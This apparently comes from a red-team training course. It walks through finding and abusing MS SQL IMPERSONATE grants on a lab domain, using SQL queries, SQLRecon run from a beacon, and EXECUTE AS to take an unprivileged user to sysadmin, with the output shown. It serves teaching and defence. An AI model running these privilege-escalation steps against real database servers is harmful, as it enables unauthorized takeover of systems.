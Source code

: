 MS SQL impersonation, or context switching, is a means which allows the executing user to assume the permissions of another user without needing to know their password.  One handy use case for the feature is to allow administrators to impersonate a user for testing purposes, e.g. a user is having a problem and they want to eliminate permissions as an issue.

Impersonations must be explicitly granted through securable configurations.

  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/1ac/eb4/226/securables.png)

  

In this example, `DEV\Domain Users` have been granted the ability to impersonate the `DEV\mssql_svc` account.  This is clearly a security issue because it gives all Domain Users sysadmin privileges on this instance.

We can discover accounts to impersonate manually using the following queries:
```
SELECT * FROM sys.server_permissions WHERE permission_name = 'IMPERSONATE';
```
  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/faf/047/15b/impersonations.png)

  

This shows that the `grantee_principal_id`, 268, is allowed to impersonate the `grantor_principal_id`, 267.  The IDs don't mean much, so we can look them up with:
```
SELECT name, principal_id, type_desc, is_disabled FROM sys.server_principals;
```
  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/582/4f2/a54/principals.png)

  

Here, we see that 267 is DEV\mssql_svc and 268 is DEV\Domain Users.

You can also write your own SQL query that will join these two, or use SQLRecon's impersonate module.
```
beacon> execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:impersonate

[*] Enumerating accounts that can be impersonated on sql-2.dev.cyberbotic.io,1433
name | 
-------
DEV\mssql_svc |
```
  

We can take advantage of this as bfarmer, who we know is not a sysadmin.
```
SELECT SYSTEM_USER;
DEV\bfarmer

SELECT IS_SRVROLEMEMBER('sysadmin');
0
```
  

Use `EXECUTE AS` to execute a query in the context of the target.
```
EXECUTE AS login = 'DEV\mssql_svc'; SELECT SYSTEM_USER;
DEV\mssql_svc

EXECUTE AS login = 'DEV\mssql_svc'; SELECT IS_SRVROLEMEMBER('sysadmin');
1
```
  

SQLRecon modules can also be run in "impersonation mode" by prefixing the module name with an `i` and specifying the principal to impersonate.
```
beacon> execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:iwhoami /i:DEV\mssql_svc

[*] Determining user permissions on sql-2.dev.cyberbotic.io,1433 as 'DEV\mssql_svc'
[*] Logged in as DEV\mssql_svc
[*] Mapped to the user dbo
[*] [+] Roles:
 |-> User is a member of public role.
 |-> User is NOT a member of db_owner role.
 |-> User is NOT a member of db_accessadmin role.
 |-> User is NOT a member of db_securityadmin role.
 |-> User is NOT a member of db_ddladmin role.
 |-> User is NOT a member of db_backupoperator role.
 |-> User is NOT a member of db_datareader role.
 |-> User is NOT a member of db_datawriter role.
 |-> User is NOT a member of db_denydatareader role.
 |-> User is NOT a member of db_denydatawriter role.
 |-> User is a member of sysadmin role.
 |-> User is a member of setupadmin role.
 |-> User is a member of serveradmin role.
 |-> User is a member of securityadmin role.
 |-> User is a member of processadmin role.
 |-> User is a member of diskadmin role.
 |-> User is a member of dbcreator role.
 |-> User is a member of bulkadmin role.
 ```